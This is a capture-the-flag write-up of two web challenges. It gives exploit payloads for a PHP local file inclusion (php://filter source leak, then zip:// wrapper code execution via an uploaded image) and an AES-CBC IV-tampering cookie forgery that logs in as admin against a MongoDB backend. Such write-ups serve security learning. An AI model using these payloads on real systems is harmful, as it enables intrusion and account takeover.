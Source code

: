 Participated as Ad Victoriam.

## web200

I've found a LFI vulnerability in a GET parameter by testing the parameter in the `index.php`.
It sounded more like that the code executes in the form of `include(null_filter($var).".php");`.

Later on, I've tried `php://filter` on the param and I was able to leak out the sourcecode of the `upload.php`.
`(index.php?mode=php://filter/convert.base64-encode/resource=upload)`

As we look further of how `upload.php` work,
we find out that the file checks for the extension but does not check the contents of the file.

Based on this information, we can think about zipping the file and load the php script from the zip file.

The possible payload from this can be `index.php?mode=zip:///var/www/owlur/owlur-upload-zzzzzz/*returned_filename_from_upload_php*.jpg%23*your_real_payload*`

Through this method you will be able to list the directory and read files, and eventually let you to read the file named `OWLUR-FLAG.txt` on the `/` directory.

```
GET: index.php?zip:///var/www/owlur/owlur-upload-zzzzzz/tqpmLQ2.jpg%23stypr

Response:
owlur
pwning complete by stypr
FLAG->PHP fILTerZ aR3 c00l buT i pr3f3r f1lt3r 0xc0ffee
```

--

## web400

The database seemed to be truncated every 15 minutes or so, and you can find out that the 'admin' username is taken whenever the database gets truncated.
The best possible case is to try a sql injection based on the functionality of mongodb and python.
As we move on, by reading the `index.py` script given from the ctf, we find out thaat the script encrypts the `auth` param in the cookie with AES-CBC encryption which is vulnerable to padding attacks.
Moreover, if we think about the code `user = g.db.users.find_one(get_cookie())` and the outline of how mongodb works,
we can actually remove the password parameter and let the cookie have the username only in it.

```
python: {"u":"username", "pw":"stypr"}
mongodb: SELECT * FROM (unknown) WHERE u='username' and pw='stypr'

python: {"u":"username"}
mongodb: SELECT * FROM (unknown) WHERE u='username'
```

Based on the things we kept in our mind, we just need to make the auth cookie to have `{"u":"admin"}\x03\x03\x03` as the plaintext.


```
- cbc padding vulnerability
    $ python
    ... (stripped - it does "plaintext xor iv xor fake_text" to create a fake iv) ...
    >>> print(base64.b64encode(malformed_iv+original_data))
        2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo=

- setting up the cookie (I just had put this on a javascript console)
    document.cookie="auth=2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo;"

- the response I've got
    <h2>Logged in as admin</h2> 
    ...
    <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
```